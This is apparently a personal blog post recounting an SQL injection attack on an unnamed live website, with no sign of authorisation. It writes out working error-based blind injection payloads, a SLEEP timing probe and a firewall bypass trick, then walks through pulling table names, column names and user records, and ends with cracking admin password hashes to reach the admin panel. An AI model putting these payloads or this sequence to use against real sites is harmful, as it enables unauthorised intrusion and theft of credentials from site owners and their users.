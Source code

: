 ```yaml
---
layout: post
title: The day of the first hacking
---
```


Today I woke up and smelt that today is the day of the first hacking experience.

Find your target by smell. It usually stinks.

### First I searched for input forms. e.g. a simple search form of a stincky website. And input the most dangereous symbol ever created by a human: the apostrophe.

url: `/search/?'`

We get the following result:

> You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version.

Whoozay!!! Seems like this query is vulnerable to SQL Injection attack. Now we must determine type of attack we can use for injection.

###  Adding the 'always true statement'

url: `search/?' or '1'='1`

We get bad result: 

> Subquery returns more than 1 row. 

This means that our query is inside an another one, possibly in a where clause. Little example to demonstrate what I mean:

```sql
Select * From Orders Where field = (Select field from order_fields)
```

This means that our injection is Blind, we can’t see the result of the query. But as we can see the error(s) of the query we understand that we are dealling with error-based blind sql injection.

### To be sure we are on right way, we decided to GO TO SLEEP.

url: `search/?1' OR (SELECT SLEEP(3)) or '1'='1`

Please be quite our server is asleep.

There are some well known tactics to work in this situation, googling will give us some of that well-know samples. We just need to add some modifications so that the known tactics work for our case. 

###  Let’s try to get current database name..

url: 

``` sql
search/?1' or(select 1 from(select count(*),concat((select (select concat(0x7e,0x27,Hex(cast(database() as char)),0x27,0x7e)) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a) and '1'='1
```

Not Acceptable, 406 ! This is bad, first thing that is coming to mind is that we have an active WAF (Web Application Firewall) inplace and it is blocking requests based on `max_get_size`. But simplifying the query doesn’t provide results. After a little research I found out that WAF is blocking `information_schema.tables` combinations in url….
It was really sad, as the ammount of adrenalin in blood was already too high. After 1-2 hours of researching (googling really) I found out that there is a bypassing way for this restriction, here is it: we need to replace `information_schema.tables` to `information_schema 0.e.tables`

### After getting database name we need to get table names from `information_schema`.

Getting Table Results

url: 

```sql
search/?1' or(select 1 from(select count(*),concat((select (select (SELECT distinct concat(0x7e,0x27,Hex(cast(table_name as char)),0x27,0x7e) FROM information_schema 0.e.tables Where table_schema=0xDATABASE_NAME_IN_HEX limit 1,1)) from information_schema 0.e.tables limit 0,1),floor(rand(0)*2))x from information_schema 0.e.tables group by x)a) and '1'='1
```

Click-Method and mighty hands method resulted in discovering about 95 tables, after retrieving them one by one we found the most interesting ones:

`tt_users, tt_admin_lists`

### Let’s start from the tt_admin_lists. ( We need to get column names, then by table name and column name get value again one by one )
Getting Column Names:

url: 

```sql
search/?1' or(select 1 from(select count(*),concat((select (select (SELECT distinct concat(0x7e,0x27,Hex(cast(column_name as char)),0x27,0x7e) FROM information_schema 0.e.columns  Where table_schema=0xDATABASE_NAME_IN_ HEX AND table_name=0xTABLE_NAME_IN_HEX limit 1,1)) from information_schema 0.e.tables limit 0,1),floor(rand(0)*2))x from information_schema 0.e.tables group by x)a) and '1'='1
```

Here is Result:

`admin _id, admin_login, admin_password`

Getting column data:

url: 

```sql
search/?1' or(select 1 from(select count(*),concat((select (select (SELECT concat(0x7e,0x27,Hex(cast(tt_admin_lists.admin_login as char)),0x27,0x7e) FROM `DATABASE_NAME`. tt_admin_lists LIMIT 1,1) ) from information_schema 0.e.tables limit 0,1),floor(rand(0)*2))x from information_schema 0.e.tables group by x)a) and '1'='1
```

Unfortunately this table was blank.

### After that we perform the same steps for the tt_users table and get the following results.
Column Names:

`User, pass, type, name`

And 5 users. (2 admins) with hashed passwords.

### HASH HACKING STEP

I don't know any hash hacking strategies and I ask my friend to get hacked my password hashes and after that admin panel was waiting for us.

Holy cow I forgot about hacking music...

[Hacking Music](https://www.youtube.com/watch?v=lN_MSyrq6-U)

